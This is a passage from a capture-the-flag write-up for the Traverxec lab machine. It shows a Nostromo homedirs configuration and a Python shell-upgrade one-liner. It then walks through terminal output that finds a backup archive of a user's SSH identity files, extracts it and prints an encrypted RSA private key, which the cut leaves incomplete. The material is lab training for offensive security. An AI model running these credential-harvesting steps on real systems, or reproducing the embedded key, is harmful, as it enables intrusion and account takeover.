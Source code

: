     homedirs		/home
    homedirs_public		public_www

According to [Nostromo manual](http://www.nazgul.ch/dev/nostromo_man.html) the
`HOMEDIRS` section allow the server to serve the user's home and some specific
folder. In fact this is possible as the `http://10.10.10.165/~david/` show us.

![http://10.10.10.165/~david/](/media/2020.04/traverxec_5.png)

First of all we use python to get a proper shell `python -c 'import pty; pty.spawn("/bin/sh")'`.

The we go in the `public_www` folder inside david's home folder. We see that
there is a backup of some SSH identity files in a targz archive.

    :::text
    $ cd /home/david/public_www/
    cd /home/david/public_www/
    $ ls
    ls
    index.html  protected-file-area
    $ ls protected-file-area
    cls protected-file-area
    backup-ssh-identity-files.tgz

We copy the archive to `/tmp/`, extract it and cat the private RSA key.

    :::text
    $ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
    cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
    $ cd /tmp/
    cd /tmp/
    $ tar xvf backup-ssh-identity-files.tgz
    tar xvf backup-ssh-identity-files.tgz
    home/david/.ssh/
    home/david/.ssh/authorized_keys
    home/david/.ssh/id_rsa
    home/david/.ssh/id_rsa.pub
    $ cat home/david/.ssh/id_rsa
    cat home/david/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

    seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
    tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
    KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
    RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
    HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
    Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
    dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
    6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
    xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
    Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
    i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
    fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
    bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
    uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
    Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
    9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
    rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
    4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
    /8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
    JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
    XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
    hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
    SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
    j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt